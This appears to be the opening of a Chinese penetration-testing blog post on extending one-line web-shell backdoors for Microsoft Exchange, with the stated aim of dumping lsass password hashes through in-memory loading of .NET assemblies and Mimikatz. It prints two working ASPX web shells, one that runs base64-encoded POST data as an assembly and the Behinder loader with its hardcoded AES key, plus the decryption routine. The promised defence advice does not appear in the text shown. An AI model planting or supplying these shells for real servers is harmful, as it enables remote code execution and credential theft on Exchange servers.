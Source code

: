
---
layout: post
title: 渗透基础——Exchange一句话后门的扩展
---


## 0x00 前言
---

在上一篇文章[《渗透基础——Exchange一句话后门的实现》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%90%8E%E9%97%A8%E7%9A%84%E5%AE%9E%E7%8E%B0)介绍了两种Exchange一句话后门(内存加载.net程序集和文件写入)，本文将要对Exchange一句话后门的功能进行扩展，以导出lsass进程的口令hash为例，介绍内存加载PE文件的实现方法，开源测试代码，分析利用思路，给出防御建议。

## 0x01 简介
---

本文将要介绍以下内容：

- Exchange一句话后门的编写
- 通过内存加载.net程序集实现导出lsass.exe进程的dmp文件
- 通过内存加载PE文件实现内存加载Mimikatz并解析指定位置的dmp文件
- 开源代码
- 防御建议

## 0x02 Exchange一句话后门的编写
---

### (1)基本的实现代码

示例代码如下：

```
<%@ Page Language="C#" %><%System.Reflection.Assembly.Load(Convert.FromBase64String(Request.Form["demodata"])).CreateInstance("Payload").Equals("");%>
```

代码会判断是否带有POST请求的参数`demodata`，如果存在会将POST请求中参数`demodata`的内容作base64解密，在内存加载并调用名为Payload的实例

### (2)[冰蝎](https://github.com/rebeyond/Behinder)的实现代码

默认启动代码如下：

```
<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b"); byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>
```

提取其中使用的解密代码如下：

```
public static string Decrypt(string str, string key)
{
    Byte[] toEncryptArray = Encoding.UTF8.GetBytes(str);           
    Byte[] toEncryptKey = Encoding.UTF8.GetBytes(key);
    Byte[] resultArray = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(toEncryptKey, toEncryptKey).TransformFinalBlock(toEncryptArray, 0, toEncryptArray.Length);
    return Encoding.UTF8.GetString(resultArray);
}
```

